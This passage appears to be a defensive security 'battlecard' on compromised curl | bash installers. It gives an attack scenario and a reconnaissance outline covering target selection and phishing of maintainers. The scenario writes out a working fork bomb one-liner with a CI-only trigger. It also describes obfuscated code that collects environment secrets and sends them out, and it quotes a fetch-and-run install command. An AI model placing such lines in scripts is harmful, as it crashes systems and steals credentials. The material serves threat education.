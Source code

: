 ```yaml
---
 permalink: /battlecards/curl-bash1
battlecard:
 title: curl | bash Installer Attacks
 category: Shell/Bootstrap
 scenario: curl|bash Installers
 focus: 
   - one-liner supply chain compromise 
   - hidden fork bombs 
---
```

{% block type='battlecard' text='Scenario' %}
An attacker identifies a popular command-line utility, "log-helper," often used by developers and in CI/CD pipelines to format and ship logs. The project's official documentation and numerous online tutorials recommend a convenient `curl -sSL https://log-helper.dev/install.sh | bash` installation method.

The attacker gains access to the `log-helper.dev` domain through a targeted phishing attack against the project's maintainer. They subtly modify the `install.sh` script. The new script still installs the tool correctly, but it now contains two malicious, obfuscated payloads:

1.  **Supply Chain Compromise:** A small block of Base64-encoded code decodes and executes a function that searches the shell's environment variables for patterns like `AWS_`, `SECRET_`, `TOKEN`, `API_KEY`. It then exfiltrates any found credentials to an attacker-controlled endpoint using a `curl` POST request.
2.  **Hidden Fork Bomb:** The script includes a seemingly innocent-looking line of code: `:(){ :|:& };:`. This is a classic, highly effective fork bomb. It is wrapped in a conditional that only triggers if the script is run in a non-interactive shell (`if [ -z "$PS1" ]`), targeting automated CI/CD environments and preventing immediate detection on a developer's machine.

When a developer or a CI/CD pipeline runs the one-liner, it silently sends their environment secrets to the attacker. In CI environments, the fork bomb is also triggered, rapidly consuming all available CPU and memory resources, crashing the build agent and potentially impacting other jobs running on the same host.

{% endblock %}
{% block type='battlecard' text='Reconnaissance' %}
### Explanation
Attackers don't pick targets randomly. They perform reconnaissance to find the path of least resistance with the highest impact. For this scenario, they are looking for popular projects that favor developer convenience over strict security. They analyze public sources to understand your technology, your processes, and your people to craft their attack.

*   **Target Selection:** The attacker scans GitHub, developer blogs, and forums for projects recommending `curl | bash` installers. They prioritize tools that are likely to be used in automated environments where secrets are stored as environment variables (e.g., CI/CD runners, Docker entrypoint scripts).
*   **Technical Analysis:** They inspect the target's source code, `.github/workflows`, `Jenkinsfile`, or `circle.yml` files to understand the build process, dependencies, and deployment pipeline. This reveals what kind of secrets might be available (`AWS_ACCESS_KEY_ID`, `NPM_TOKEN`, etc.).
*   **Human Analysis:** They identify project maintainers through git commit histories. They then search for these individuals on social media (like LinkedIn) to prepare for social engineering attacks, such as targeted phishing emails, to gain control of their GitHub account or domain registrar.
